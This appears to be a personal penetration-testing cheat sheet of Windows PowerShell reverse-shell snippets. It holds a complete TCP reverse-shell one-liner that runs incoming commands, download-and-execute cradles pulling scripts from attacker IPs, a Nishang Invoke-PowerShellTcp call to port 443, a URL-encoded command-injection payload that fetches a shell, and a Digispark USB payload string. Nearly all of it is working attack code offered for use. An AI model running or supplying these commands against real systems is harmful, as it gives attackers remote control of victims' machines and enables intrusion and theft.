 

Reverse shell, run this at cmd prompt, if at ps, ship powershell -c ""
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

also saved in revsh2.ps1 on ny kali

start from somewhere else:
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.18.21.236:8000/shells/revshk.ps1');"`

[nishang](https://github.com/samratashok/nishang)
 `powershell iex (New-Object Net.WebClient).DownloadString('http://10.18.21.236:8000/shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.18.21.236 -Port 443`

url
`/?r=http%3A%2F%2Finternal.ironcorp.me%3A11025%2Fname.php%3Fname%3Dadmin|powershell.exe%2b-c%2biex(new-object%2bnet.webclient).downloadstring('http%253a//10.18.21.236%253a8000/revshk.ps1')`

cpp (arduino, digispark)
`"powershell \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.233.133:8000/revsh.ps1');\""`

